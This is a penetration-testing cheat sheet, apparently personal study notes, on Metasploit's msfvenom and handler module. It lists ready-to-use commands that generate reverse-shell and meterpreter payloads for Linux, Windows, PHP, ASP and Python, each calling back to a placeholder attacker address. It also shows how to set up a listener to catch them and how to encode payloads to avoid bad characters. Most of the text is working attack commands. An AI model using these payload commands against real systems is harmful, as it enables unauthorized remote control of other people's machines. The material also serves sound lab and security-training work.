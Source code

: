 `msfvenom -p PAYLOAD_PATH LHOST=X.X.X.X -f exe(FORMAT) -o payload.exe(OUTPUT)`
`msfvenom -l payloads`
`msfvenom --list formats`

`-e ENCODING -b"\x00...BYTES_TO_FILTER"
`-f FORMAT` : elf, exe, raw, python 
`-v VAR_NAME` : useful to set a variable name for script code (like with `-f python`)

#### Handlers
`use exploit/multi/handler` -> `set payload php/reverse_php` *(optional) omit for meterpreter shell*-\> `set lhost MY_IP` -\> `set lport MY_IP` -\> `run` *infers listener running*
#### Payload Examples
*must have set up listener or `exploit/multi/handler` module set up/listening for reverse shells above*
- Linux (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- Windows: `msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
- PHP: `msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
- ASP: `msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp`
- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`
- `msfvenom -l payloads | grep meterpreter`, shows reverse and bind meterpreter shells on different platforms

#### Encoders
Often they will remove bad characters (like non-alphanumeric chars that are filtered by input fields). The payload will then be decoded at run time, which requires a prepended decoder stub.
*Encoders are not intended to bypass security, but may help*:  `msfvenom -l encoders`

*Consider: target OS, programs on the system, available connection types*

# Single vs. Staged
Stages: Downloaded by the stager after access is achieved on the target
`windows/shell_reverse_tcp` - denotes a single payload, injecting into memory and calling back automatically
`windows/x64/shell/reverse_tcp` - denotes a staged payload (stager) which injects, then must reach out for part 2 of the exploit (stage), which is hosted by the attacker usually by with `exploit/multi/handler` 